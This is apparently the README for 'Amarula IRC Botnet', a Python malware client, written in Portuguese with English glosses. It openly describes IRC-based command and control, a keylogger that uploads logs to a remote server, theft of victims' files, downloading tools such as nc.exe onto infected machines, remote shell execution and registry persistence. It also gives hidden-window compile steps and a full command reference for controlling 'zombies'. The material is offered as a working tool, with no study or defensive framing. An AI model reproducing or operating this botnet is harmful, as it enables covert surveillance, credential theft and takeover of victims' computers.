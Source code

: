 # Amarula IRC Botnet v1.0
<h4> Abacatch Version </h4>


Botnet client feito em **Python 2.7** *(written in Python 2.7)* <br>
Testado em: **Windows XP, 8, 10**, *(tested on)*<br>
Escrito por: **Carlos Néri Correia** *(coded by)* <br>
Versão: **1.0** *(version)*

## Como funciona? *(how it works)*
O Amarula IRC Botnet é um *botnet client* codado em Python 2.7. O malware nada mais é do que um cliente IRC, especialmente construído, que se conecta a um server IRC e entra em um canal como se fosse um usuario comum.
O Administrador, por sua vez, também estará conectado ao canal, mas através de um programa de cliente IRC normal (como o Hexchat), de forma que, toda vez que o Adm envia uma mensagem para o canal, o BOT interpreta essa mensagem como um comando a ser executado no sistema. São diversas as vantagens de administrar os BOTs através do IRC - Os servers são ativos 24h, não é necessário abrir portas no PC, o IRC é um protocolo teoricamente confiável, entre outras.

## Funções *(features)*
- Executar comandos shell *(shell command execution)* <br>
- Keylogger - Captura de teclas digitadas pelo cliente em tempo real *(real-time keylogging)* <br>
- Listar diretório atual do bot *(list current working directory)* <br>
- Listar todos os arquivos de um *diretorio (list all directory files)* <br>
- Obter ip local e externo do bot *(get local and WAN bot IP)* <br>
- Download de arquivos da web via HTTP *(HTTP web downloading)* <br>
- Upload de arquivos para servidor web via HTTP *(upload bot files to web server)* <br>
- Envio de logs para servidor remoto *(send logs to remote server)* <br>
- Deletar arquivos no BOT *(delete files)* <br>
- Executar arquivos no BOT *(run files)*
- Persistência *(persistence)*<br>

## Instalação *(install)*
    $ pip install requests
    $ pip install pypiwin32

**Download pyHook**
https://sourceforge.net/projects/pyhook/

## Configuração *(setup)*
Algumas variáveis precisarão ser definidas ou alteradas, para que a conexão do BOT com o IRC seja feita corretamente. <br>
Toda a administração dos BOTs será feita através de um cliente IRC comum. O Administrador enviará comandos para o canal onde os BOTs estarão conectados e intrepretarão as mensagens enviadas como comandos. 

***VARIÁVEIS:*** *(variables)* <br>
<center><img src="https://ibb.co/hKPyzR"></center>

***ircServer*** *(sets IRC server address)* <br>
Endereço do servidor IRC ao qual o BOT irá se conectar. <br>

***ircPwdCha*** *(sets IRC channel password)*<br>
Define o password do canal IRC ao qual o bot irá se conectar. <br>
Caso o canal não possua password, deixar em branco ("") <br>
Importante setar um password no canal para que outras pessoas não entrem e possam controlar os seus bots.

***ircChanne*** *(sets IRC channel)* <br>
Canal do IRC ao qual o bot irá se conectar. <br>
É interpretando as mensagens enviadas para o canal que o BOT irá executar os comandos internamente no cliente.

***botPass*** *(sets password to activate and connect to the BOTS)* <br>
Define um passoword para ativar, conectar e controlar os bots no canal <br>
 
***botAdmi*** *(Admin Name - NOT OBLIGATORY)* <br>
Define um nome pelo qual os zumbis te chamarão <br>
Não é obrigatório. <br>

***urlUpload*** *(Upload page on remote server)* <br>
Página de upload no servidor remoto, para a função de envio remoto. <br>
Será criado um arquivo *capt-(nome do PC).txt* na mesma pasta de upload.php, no servidor.  

***ldir*** *(sets local directory, dropping directory)* <br>
Diretório local, onde será salvo o arquivo de log. <br>
Diretório para o qual o .exe se copia para ser executado em persistência quando a máquina reiniciar.



## Compilar *(compile)*

    $ pyinstaller -w amarula.py --onefile
    
## Controlando os bots *(usage)*

- [dir] para vizualizar o diretorio atual do zumbi <br>
		
		$ USAGE: ls <nickdobot> <br>
		$ Ex: ls DESKTOP-PC-3456

- [ls] para listar o conteudo da pasta atual <br>
		
		$ USAGE: ls <nickdobot> <br>
		$ Ex: ls DESKTOP-PC-3456

- [ip] para mostrar os ips do bot
		
		$ USAGE: ls <nickdobot> 
		$ Ex: ip DESKTOP-PC-3456
	
- [upload] para fazer upload de arquivos do bot
  Será feito o upload para o servidor web definido na variável urlUpload 
		
		$ USAGE: $ USAGE: upload <Arquivo> <nickdobot>
		$ Ex: upload leak.txt DESKTOP-PC-3456

- [download] para baixar arquivos da web para o zumbi
		
		$ USAGE: $ USAGE: download <link> <nickdobot>
		$ Ex: download http://seusite.com/nc.exe DESKTOP-PC-3456

- [run] para executar um programa ou arquivo.

		$ USAGE:  run <programa> <nickdobot>
		$ Ex: run calc.exe DESKTOP-PC-3456

- [delete] para excluir arquivos
		
		$ USAGE: delete <arquivo> <nickdobot>
		$ Ex: delete leak.txt DESKTOP-PC-3456

- [start keylog] para ativar o keylogger
  O arquivo de log será upado para o servidor web a cada 100 caracteres digitados. <br>
  Será iniciado um novo processo no sistema do BOT para o keylogger.		

		$ USAGE: keylog start <nickdobot>
		$ Ex: keylog start DESKTOP-PC-3456


- [stop keylog] para desativar o keylogger
		
		$ USAGE: keylog stop <nickdobot>
		$ Ex: keylog stop DESKTOP-PC-3456

- [persistence]   para instalar persistencia no registro do Windows
  Instala a persistencia, iniciando o bot toda vez que o PC do cliente iniciar <br>
		
		$ USAGE: persistence <nickdobot>
		$ Ex: persistence DESKTOP-PC-3456

- [shell] para executar comandos no terminal.
		
		$ USAGE: shell <comando> <nickdobot>
		$ Ex: shell echo HACKED hack.txt && DIR hack.txt DESKTOP-PC-3456
		
- [sair] para que os bots ativos saiam do canal <br>

		$ USAGE: sair		
		
- [sair] matar todos os BOTs ativos <br>
  Todos os zumbis ativos desconectam-se do IRC
		
		$ USAGE: matar		
